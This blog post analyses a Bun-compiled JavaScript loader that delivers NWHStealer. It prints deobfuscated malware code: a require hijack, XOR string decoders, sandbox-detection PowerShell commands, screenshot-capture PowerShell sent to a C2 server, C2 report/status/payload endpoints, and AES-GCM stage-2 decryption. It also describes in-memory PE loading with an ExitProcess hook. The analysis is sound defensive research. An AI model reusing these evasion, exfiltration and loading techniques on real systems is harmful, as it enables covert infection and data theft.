


In the last weeks a new malware sample has emerged and caught the attention, being one of the most download sample from Malwarebazaar. This malware is the new NWHStealer and different types of loader are emerging to try to spread it as much as possible. This particular loader analyzed here has been built using Bun, a relatively new JavaScript runtime engine written in Zig but that, at the moment, it's being rewritten in Rust. This engine has been acquired by Anthropic recently, so it has some attention behind. In this blog post i will analyze this loader, showing how the executable is structured and what it does once executed.

- Do not remove this line (it will not be displayed)
{:toc}

# Sample details

| Link | `https://bazaar.abuse.ch/sample/3e6db6b42264d6b17935cdd4cb065f96dc18fd686db886b44ea09a4a915e9548/` |
| SHA256 | `3e6db6b42264d6b17935cdd4cb065f96dc18fd686db886b44ea09a4a915e9548` |
| Filename | `setup.exe` |
| Size | 112 MiB (117319168 bytes) |
| Language | JavaScript (Bun) |
| Build time | Sunday, 19-04-2026 07:30:07 UTC (`0x69e4847f`) |
| C2 server | `https://silent-harvester[.]cc` |

# A really brief Bun introduction

Bun is an all-in-one toolkit for developing JavaScript/TypeScript applications and it includes 4 foundamental elements:

*   Bun Runtime: A fast JavaScript runtime designed as a drop-in replacement for Node.js
*   Bun Package Manager: A packages manager with a global cache and workspaces
*   Bun Test Runner: Built-in, Jest-compatible test runner, executed with the Bun runtime
*   Bun Builder: Bundler used for JavaScript, TypeScript, JSX, etc...

The Bun website claims that "_Bun is a fast, incrementally adoptable all-in-one JavaScript, TypeScript & JSX toolkit_". Its goal is to be a drop-in replacement for node.js, since it is fully compatible with node.js APIs. Being so similar with node.js, makes the final compiled executable share some characteristics with it: in fact the final PE embeds the full JavaScript runtime engine, resulting in a file of about 90~100MB size.

In a node.js compiled PE, the code is stored as a resource. Once executed, the JavaScript engine extract and execute it. From an analyst's perspective, this is the juice to extract, since it contains all the malware logic that needs to be analyzed. In a PE built with Bun, instead, the code to be executed is stored inside a custom section named `.bun`. Here are stored all the source files that compose the final executable. Similar with node.js, this section is the main focus point while doing the analysis.

# Analysis

_Disclaimer: at time of writing this post, the C2 server is not online anymore. Despite this is an analysis of the sole loader, it was impossible to record the communication with the C2, from which the stage-2 is downloaded. All the work has been done statically but I don't exclude to bring an analysis of the stage-2 malware in the future._

---

Simply inspecting the strings of the executable it is possible to obtain the Bun version used to build it. For this sample the version used is `1.3.13`.

As confirmation of what written above, among the PE's sections of the sample there is the one called `.bun`. 


About the imported DLLs, we cannot tell anything relevant in this case, since the listed imports are used only by the embedded JavaScript runtime and not used by the loader itself. Given the nature of the executable, the required libraries by the loader are imported used the directive `require()` and are the following:

*   `os`
*   `fs`
*   `path`
*   `https`
*   `http`
*   `crypto`
*   `bun:ffi`
*   `sysreq` (internal module)
*   `memload` (internal module)

## Struct of _.bun_ section

The `.bun` section of a compiled PE contains all the source files used to build the executable using the Bun builder. These files are stored in clear text but however it's important to know how to extract the single ones.

From this section it is possible to extract the original path of the final executable (`B:/~BUN/root/loader_20260425_040508_d6ea46eb.exe` in this case) along with the original paths of the source files. It's even possible to note that the bytes `// @bun` indicate the start of the source code, while each file is separated from the other using a single line comment (bytes `// `) of the file original path ended with a new line character `0x0a`.


With this information it's possible to extract the single source files to analyze them separately. They are heavily obfuscated and are:

*   `entry.js`: Entry point.
*   `main.js`: It contains the main logic of the loader. Communicates with the C2 server.
*   `sysreq.js`: Called to check the host where the loader is run.
*   `memload.js`: Called to load and exec the stage 2 malware.

For all of them it was possible to perform deobfuscation using webcrack[^1] to recover its original content (without variable and function names). However, how it will be detailed next, some strings in these scripts are obfuscated with an additional layer using custom algorithms.

## Loader logic

The logic flow of the loader can be summarized as the following:



### entry.js

This is the entry point of the executable. It is a quite simple code, as shown below:

```js
var require_entry = __commonJS(() => {
  var _sysreq = require_sysreq();
  var _memload = require_memload();
  var _origReq = __require;
  __require = function(m) {
    if (m === "./sysreq" || m === "./sysreq.js")
      return _sysreq;
    if (m === "./memload" || m === "./memload.js")
      return _memload;
    return _origReq(m);
  };
  require_main();
});
export default require_entry();
```

The interesting part is the redirection of future `require("./sysreq")` or `require("memload")` calls to internal modules bundled within the executable (declared with `__commonJS((exports, module)`). This ensures the loading of the correct modules, otherwise they would be searched for on the disk, resulting in a module not found error. Finally, the `require_main()` function is called, resulting in passing the execution to `main.js` module.

### sysreq.js

This script is responsible, as the name suggests, to check the system to detect if the malware is run in a real machine or on a VM/sandbox. After it gains all the information, it calculate a score used as a metric to decide if continue the execution or not. It exposes a function named `validateSystem()` called by `main.js` to start the system inspection.

The script performs a full system inspection, obtaining the following information:

*   SMBIOS firmware table
*   ACPI firmware tables
*   DiskDrive model
*   BIOS manufacturer
*   RAM amount and speed
*   CPU model
*   CPU cores
*   Logged user
*   Operating system installed
*   Network interfaces
*   Installed software
*   USB devices
*   Screen size

Almost all of this information is obtained using PowerShell commands, while the rest is obtained using Bun modules like `os`.

SMBIOS data, for example, is obtained using the following command:

```sh
powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command "Add-Type -MemberDefinition '[DllImport(\"kernel32.dll\",SetLastError=true)]public static extern uint GetSystemFirmwareTable(uint sig,uint id,IntPtr buf,uint sz);public static string R(){uint n=GetSystemFirmwareTable(0x52534D42,0,IntPtr.Zero,0);if(n==0)return\"\";IntPtr b=Marshal.AllocHGlobal((int)n);GetSystemFirmwareTable(0x52534D42,0,b,n);byte[] d=new byte[(int)System.Math.Min(n,8192u)];Marshal.Copy(b,d,0,d.Length);Marshal.FreeHGlobal(b);var s=new System.Text.StringBuilder();var c=new System.Text.StringBuilder();foreach(byte x in d){if(x>=0x20&&x<0x7F)c.Append((char)x);else{if(c.Length>=4){s.Append(c);s.Append(\"|\");}c.Clear();}}return s.ToString();}' -Name R1 -Namespace HW -Using System.Runtime.InteropServices; [HW.R1]::R()"
```

Which pruduces an output like: `innotek GmbH|VirtualBox|12/01/2006|innotek GmbH|VirtualBox|VirtualBox-75aa1f3f-1575-409d-b759-24e9382ff38b|Virtual Machine|Oracle Corporation|VirtualBox|Oracle Corporation|Socket #0|GenuineIntel|Pentium(R) III|DIMM 0|Bank 0|innotek GmbH|00000000|00000000|00000000|vboxVer_7.2.8|vboxRev_173730|`.

Instead, the CPU model and the number of cores is obtained using the `os` module:

```javascript
os.cpus()[0] ? _vB.cpus()[0].model : "unknown"
```

The score is calculated twice in different points in the script. If both the checks are passed, an object with the gathered information is returned to `main.js`.

As mentioned previously, after the deobfuscation with webcrack, it's possible to note inside the script there are 2 arrays of encrypted strings:

For the first array, each element is another array composed by 2 elements:

1.  Array of strings base64 encoded
2.  XOR key used to recover the plaintext strings

While for the second array, each element is another array composed by:

1.  String base64 encoded
2.  XOR key used to recover plaintext strings


The code responsible to recover the clear text strings for the first array is the following:

```js
  function _vo(string, xorKey) {
    var z = [];
    for (var w = 0; w < string.length; w++) {
      z.push(string[w] ^ xorKey.charCodeAt(w % xorKey.length));
    }
    return Buffer.from(z).toString("utf-8");
  }
```

While for the second array is the following:

```js
  function _vK(string, xorKey) {
    var z = Buffer.from(string, "base64");
    var w = [];
    for (var x = 0; x < z.length; x++) {
      w.push(z[x] ^ xorKey.charCodeAt(x % xorKey.length));
    }
    return Buffer.from(w).toString("utf-8");
  }
```

The only difference is that the first array has the base64 string splitted in an another inner array, while the second not. Before to decrypt the strings for the first array, the entire base64 string is recovered by concatenating each element.

The following Python script was written to recover the clear text strings:

```python
import base64

def deobf(ciphertext, key):
    for w in range(0, len(ciphertext)):
        print(chr(ciphertext[w] ^ ord(key[w % len(key)])), sep='', end='')
    print()


ciphertext = [[["BQ1KXwBDX", "0dQFwYBTR", "QpXlJUWRd", "OAlZGCVBC", "C1leEhA="], "ad94d16157"], [["dAp", "VUF", "g="], "9e1541dc9"], [["ZVtWBQFm", "IXAuYA=="], "228639c9a33"], [["YFpdClc+cF", "sIR0BFBEJk", "SkBNAAw="], "7339ea34e751a0"], [["KQBb", "FlJZ", "ABdN", "EV0T"], "da5c48cc8c8aed"], [["YlsPAwc", "8M1lLFQ", "oGUll/B", "F1aERo="], "52a05cc12fce3"], [["LwVeRg", "dQWk1G", "EAFCHz", "JBXFxX"], "bd03a1993"], [["XVJbDUdKVlgLQ", "hYFXEQQelcMQF", "VUUxZHRAdLHGN", "HUwdRExpWDUBb", "A00KXF5FFg=="], "076b5350b26b90"], [["YgsIUFNpdw", "MVBiNZVBAC"], "5bfca6"], [["ZV9eU", "lBrcl", "tKWXJ", "CCBRR"], "260ab4629"], [["NXkz", "dANF", "UFpX", "fnc="], "e7c0f39927381"], [["ZH1o", "JVJB", "W1NR", "enA="], "438a77204340b9"], [["YFteV", "gs5aV", "81JAt", "NXEJP"], "720e9f91eae9566"], [["R1kWXxBvCldWU2", "hoDGd1VhdQERgX", "XwdDEHYCVABBGF", "4NRV1ZFwMJCERM"], "78b708c9ea"], [["Mw0PB", "FFscA", "1KXHJ", "CChcB"], "dda7c34d9760cad"], [["T1ACA", "kESXl", "1QFkA", "FBltb", "FgtA"], "84ce4f719b9de"]]
ciphertext2 = [["FVVeEw==", "d03f61b9fc3ad"], ["EFxTAAhbRg==", "c92ba45c608a"], ["V1dbDhY=", "588fe42ab3889ce"], ["WQ9eVxJUDQ==", "0a08f1f0e1"], ["E1tWSA==", "e99035c44"], ["TgxBVksH", "8a679b2c369d84b7"], ["CUE8EFRnUlIRTQ==", "d2cf9817c9"], ["QVlEQ00DXhhbVFVaW19c", "70678b286562219a"], ["SVUZDVJWVF9P", "964dfbd9789"], ["FldLQAYD", "f4f15653f909e"], ["Qw9GTEZZXVpaHg==", "5f483818"], ["A11IEAA=", "a51feaba6"], ["E1lFAxRWQQ5DAEJX", "e42bf37c4a021"], ["Xk8JXBJeCUML", "59d7d3b5f50"], ["R1sKT0YGDEtEBlhA", "19e70dc32d783b4"], ["S1ZfR1sISgMLRV5c", "33116e2fe"], ["BlEKBgVfVFc=", "6a035eaa24"], ["CAkNCQQCAwA=", "817948170310"], ["UQcLVwcPAVU=", "d51b351e12a"], ["BAINBlADDHI=", "4277e996b334"], ["VAYCUg8OV3Q=", "d68c94d1"], ["CQRbB3oOVgI=", "94a694b0a7"], ["El8UEV8M", "d6fe6cc"], ["HlBZ", "f57b77794"], ["RQdGWVkNVVkV", "5f485a0"], ["QVpWTUo=", "774899eae95546"], ["Dk5DXBM=", "f739a392c60"], ["QFZQF1AEQg==", "23478e603c22d6d1"], ["JWAmZA==", "a3b0dede27e"], ["c3IiMQ==", "53aa9b2a768"], ["RFZVRg5STQ==", "631ff39c4ae78ae"], ["F1pCFlFZ", "a30b8689714f58"], ["BwYORlEI", "bbef8ae39502535"]];

for x in ciphertext:
    string = "".join(x[0])
    deobf(base64.b64decode(string), x[1])

for x in ciphertext2:
    deobf(base64.b64decode(x[0]), x[1])
```

The first array contains strings of PowerShell classes and objects, used to obtain information about the host. It seems that the structure of the array is to have classes on odd indexes and objects on even indexes, but is not always in this way, since sometimes in the code, objects are hardcoded in cleartext in the function call used to launch the PowerShell command. If `powershell` command does not return anything, `wmic` is used as fallback.

Example of PowerShell commands launched during the system inspection:

*   `powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command “Get-CimInstance -ClassName Win32_DiskDrive | Select-Object Model | Format-List”`
*   `powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command “Get-CimInstance -ClassName Win32_BIOS | Select-Object Manufacturer | Format-List”`
*   `powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command "Get-CimInstance -ClassName Win32_PhysicalMemory | Select-Object Manufacturer,Speed | Format-List"`
*   `powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command "Get-CimInstance -ClassName Win32_BaseBoard | Select-Object Manufacturer,Product | Format-List"`
*   `powershell -NoProfile -NonInteractive -WindowStyle Hidden -Command “Get-CimInstance -ClassName Win32_DiskDrive | Select-Object PNPDeviceID | Format-List”`

The second array contains strings that are compared against the retrieved value to determine whether the system is running in a virtual machine or sandbox environment. These values are then used by the scoring system to assess whether the host is a virtual machine.

In this point system is considered even the software installed on the host. To find it, the script checks for the values in the registry keys `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall` and `HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall`. In addition, USB devices are also checked, inspecting the key `HKLM\SYSTEM\CurrentControlSet\Enum\USB`.

To wrap it up, the following is a summary scheme of `sysreq.js` execution:



### main.js

This script coordinates the loader’s execution. First, it calls `sysreq.js`’s `validateSystem()` function to perform host checks. If the host passes these checks, the script contacts the C2 server, downloads the second-stage binary, decrypts it, and invokes the `exec()` function exposed by `memload.js` to execute the stage-2 malware.

Note that there is a hidden debug feature activated if the file `C:\Users\<username>\Desktop\98765.txt` is found on the victim's host. In this case, the following object is sent to the C2, effectively bypassing the system check phase:

```json
{
  "ok": true,
  "data": {
    "cpu": "debug",
    "ram": 0,
    "os": "debug",
    "host": "<hostname>",
    "user": "<username>",
    "hw": {},
    "score": -1
  }
}
```

In this script, a slightly different string-obfuscation technique is used. The overall structure remains the same as in `sysreq.js`: an array contains base64-encoded strings and the corresponding XOR keys. However, the decryption algorithm differs. The Python code written to perform the deobfuscation is the following:

```python
def deobf2(ciphertext, key):
    g = len(ciphertext) - 1
    f = []

    while g >= 0:
        f.insert(0, chr(ciphertext[g] ^ ord(key[(g + 2) % len(key)])))
        g -= 1

    print(''.join(f))
```

The following strings were recovered:

0.  `d6ea46eb014eda764765658990a6975fcb1102dc3b105dcb117ccbef82b8fe0c` (Salt - used to obtain the payload decryption key)
1.  `1c6769e17131d735bf0213ac8611a517ac514ad222494ef6c2280fb1a7a639e2` (Report secret)
2.  `/api/status` (C2 status endpoint)
3.  `/api/report` (C2 report endpoint)
4.  `encryption failed`
5.  `$b=[System.Windows.Forms.Screen]::PrimaryScreen.Bounds;`
6.  `$bmp=New-Object Drawing.Bitmap($b.Width,$b.Height);`
7.  `$g=[Drawing.Graphics]::FromImage($bmp);`
8.  `$g.CopyFromScreen($b.Location,[Drawing.Point]::Empty,$b.Size);`
9.  `$ms=New-Object IO.MemoryStream;`
10.  `$bmp.Save($ms,[Drawing.Imaging.ImageFormat]::Jpeg);`
11.  `[Convert]::ToBase64String($ms.ToArray())`
12.  `https://www.google.com/generate_204`

The strings from index 6 to 12 are used to build a PowerShell command to obtain a screenshot of the main screen, which is then sent to C2 server. The URL at index 13 is used to check Internet connection.

The C2 server URL is hardcoded in clear text and it is `https://silent-harvester[.]cc`:

*   At path `/api/report` the loader sends system information (and score) gathered by `sysreq.js` module.
*   At path `/api/status` it downloads the seed used to generate the stage-2 decryption key.
*   at path `/api/payload` it downloads the encrypted stage-2.

The code in this module implements an additional obfuscation technique designed to slow down analysis. In particular, several functions act as wrappers: they take the target function as their first argument and the parameters to pass to that function as the remaining arguments. For example, consider the following function used to decrypt the strings:

```javascript
function _hayn(c) {
  var d = {
    VYuMe: function (k, l, m) { // Wrapper function
      return k(l, m);
    },
    TatoI: function (k, l) { // Wrapper function
      return k(l);
    },
    VzRIa: "base64",
    lbegl: "2|3|0|5|1|4",
    LDuAA: "log",
    elHIg: "warn",
    MvPOU: "info",
    VKPgX: function (k, l) {
      return k + l;
    },
    RvBrP: "{}.constructor(\"return this\")( )"
  };
  var e = "1|5|2|4|3|0".split("|");
  var f = 0;
  while (true) {
    switch (e[f++]) {
      case "0":
        return d.VYuMe(_hayl, Buffer.from(d.TatoI(joinBase64Str, i[0]), d.VzRIa), i[1]);
      case "1":
        var g = {
          fUOIX: d.lbegl,
          PVSQt: d.LDuAA,
          tJiem: d.elHIg,
          ekRqR: d.MvPOU,
          unDgq: function (k, l) {
            return k(l);
          },
          OpFHi: function (k, l) {
            return d.VKPgX(k, l);
          },
          IVveI: d.RvBrP
        };
        continue;
      case "2":
        continue;
      case "3":
        var i = encStr[c];
        continue;
      case "4":
        continue;
      case "5":
        continue;
    }
    break;
  }
}
```

Here, the functions defined inside the `d` object serve as wrappers: their first parameter is the target function to execute. These wrapper functions are then invoked inside case "0" of the switch statement. The first wrapper (`d.VYuMe`) is used to call the function to perform the string decryption, while the second (`d.TatoI`) is used to call the function to join the base64 strings.

After sending the host information to the C2 server, the subsequent GET to `/api/status` is done by adding as a GET parameter `v` the build id of the sample, probably to allow the C2 server to identify different versions. As a response, the server returns a seed used by the loader to generate the key to decrypt the payload retrieved with a third GET call against `/api/payload` path. This payload is encrypted with AES-256-GCM algorithm and it is decrypted using the SHA256 of the concatenation of the seed plus the salt string as key, with the first 12 bytes of the payload used as IV. The function is the following:

```javascript
function decryptc2payload(a, seed) {
  var c = {
    xzPDC: "7|5|3|4|1|6|0|2",
    calcHashWrap: function (l, m, n) {
      return l(m, n);
    },
    concatWrap: function (l, m) {
      return l + m;
    },
    CheckExistenceWrap: function (l, m) {
      return l || m;
    }
  };
  try {
    var d = c.xzPDC.split("|");
    var f = 0;
    while (true) {
      switch (d[f++]) {
        case "0":
          k.setAuthTag(i);
          continue;
        case "1":
          var g = a.slice(28);
          continue;
        case "2":
          return Buffer.concat([k.update(g), k.final()]);
        case "3":
          var iv = a.slice(0, 12);
          continue;
        case "4":
          var i = a.slice(12, 28);
          continue;
        case "5":
          var key = c.calcHashWrap(calculate_hash, c.concatWrap(seed, _hayp.SALT), "sha256");
          continue;
        case "6":
          var k = cryptoMod.createDecipheriv("aes-256-gcm", key, iv);
          continue;
        case "7":
          if (c.CheckExistenceWrap(!a, !seed)) {
            return null;
          }
          continue;
      }
      break;
    }
  } catch (l) {
    return null;
  }
}
```

Note how the sequence stored in `c.xzPDC` determines the order of the operations to perform, where element corresponds to a branch of the switch case.

After the decryption, the payload is passed to `memload.js` module, using its `exec()` function. Finally, a new POST to `/api/report` is performed to notify the C2 server about the correct decryption and execution of the second stage. As detailed in the next section, the payload downloaded from the C2 server is a PE file to be executed.

### memload.js

The analysis of this script is pretty straightforward, since this module logs everything it does using strings stored in clear text. In addition, there is a second exposed function used to obtain all the logs collected during the module's `exec()` execution. Finally, there is no particular code obfuscation technique used to obstruct static analysis.

As the name suggested, the goal of this module is to load the PE downloaded by `main.js` module and execute it. To do it, it uses the Bun module `FFI` to load native libraries. In this way it is possible to call Windows APIs like `VirtualAlloc()` and `CreateThread()` from JavaScript code.

The module does what a classic loader would do:

*   Parses the PE
*   Loads the PE in the memory
*   Resolves its imports
*   Creates a new thread

In addition, the loader creates a hook in `ExitProcess()` to make it call `ExitThread()` instead. This technique is usually used to bypass AV/EDR detection and to avoid to kill the parent process.

After loading the stage 2, the module returns a status code to `main.js`, which communicates with the C2 server to report about the injection.

---

[^1]: https://github.com/j4k0xb/webcrack
